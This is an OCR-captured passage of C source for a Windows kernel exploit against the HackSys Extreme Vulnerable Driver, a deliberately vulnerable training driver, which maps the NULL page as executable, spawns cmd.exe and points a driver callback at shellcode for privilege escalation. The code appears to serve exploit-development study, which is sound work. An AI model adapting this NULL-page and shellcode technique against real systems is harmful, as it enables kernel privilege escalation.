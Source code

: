 ```
    ZeroMemory(&amp;si, sizeof(STARTUPINFO));
    ZeroMemory(&amp;pi, sizeof(PROCESS_INFORMATION));

    printf("[*] Mapping NULL page via ZwAllocateVirtualMemory()n");

    NTSTATUS alloc = _ZwAllocateVirtualMemory(
        GetCurrentProcess(),
        &amp;memAddr,
        0,
        &amp;regionSize,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    );
    if (alloc != 0) `{`
        printf("[!] Error mapping memoryn");
        return 0;
    `}`

    printf("[*] Success, memory mappedn");
    printf("[*] Opening handle to device drivern");
    HANDLE driverHandle = CreateFileA(
        "\\.\HackSysExtremeVulnerableDriver",
        GENERIC_READ | GENERIC_WRITE,
        0,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL
    );
    if (driverHandle == INVALID_HANDLE_VALUE) `{`
        printf("[!] Error opening handlen");
        return 0;
    `}`
    printf("[*] Handle opened successfullyn");

    printf("[*] Spawning a new cmd.exe processn");
    si.cb = sizeof(STARTUPINFOA);
    if (!CreateProcessA(
        NULL,
        (LPSTR)"cmd.exe",
        NULL,
        NULL,
        true,
        CREATE_NEW_CONSOLE,
        NULL,
        NULL,
        &amp;si,
        &amp;pi
    )) `{`
        printf("[!] FATAL: Error spawning cmd.exen");
        return 0;
    `}`
    printf("[*] cmd.exe spawnedn");

    Sleep(1000);

    printf("[*] Updating our shellcode to search for PID %dn", pi.dwProcessId);
    *(DWORD *)((char *)shellcode + 27) = pi.dwProcessId;

    printf("[*] Setting Callback() pointer at 0x08 to point to shellcoden");
    *(unsigned long long*)0x8 = 0x100;

    printf("[*] Copying shellcode to 0x100n");
```